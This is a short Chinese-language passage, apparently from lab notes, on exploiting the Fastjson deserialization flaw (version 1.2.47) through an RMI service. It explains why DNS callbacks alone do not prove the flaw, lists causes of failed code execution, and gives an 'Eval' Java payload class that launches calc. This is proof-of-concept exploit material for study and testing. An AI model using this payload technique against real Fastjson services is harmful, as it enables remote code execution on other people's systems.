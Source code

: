 `但是以上payload只能证明fastjson出网，无法判断fastjson是否存在反序列化漏洞，因为最新的打了补丁的fastjson也是能发起DNS请求的。这是很多新手，误以为能DNS出网，就认为存在fastjson漏洞，这是不正确的。`

其实，会发现，这个FastJson版本，并不能利用，只能打打DNS。

这里把版本改成1.2.47。开个RMI服务，打入payload。请求有了，但是代码没有执行。这里有以下几种情况，代码是执行不了的。

> 1、把Java编译成class的时候Java版本A     和目标极其运行的Java版本B   ，两个Java版本不同，导致失败
>
> 2、不仅FastJson要满足对应版本，jdk也要满足对应版本
>
> 3、编译的时候eval.java 不能有package

可以看到，我这个是因为存在包名。

![image-20231222212416784](image-20231222212416784.png)

修改一下eval代码

```
import java.io.IOException;

/**
 * @author   Email:
 * @description:
 * @Version
 * @create 2023-12-22 21:25
 */
public class Eval {


    public Eval() throws IOException {

        Runtime.getRuntime().exec("calc");

    }

}
```
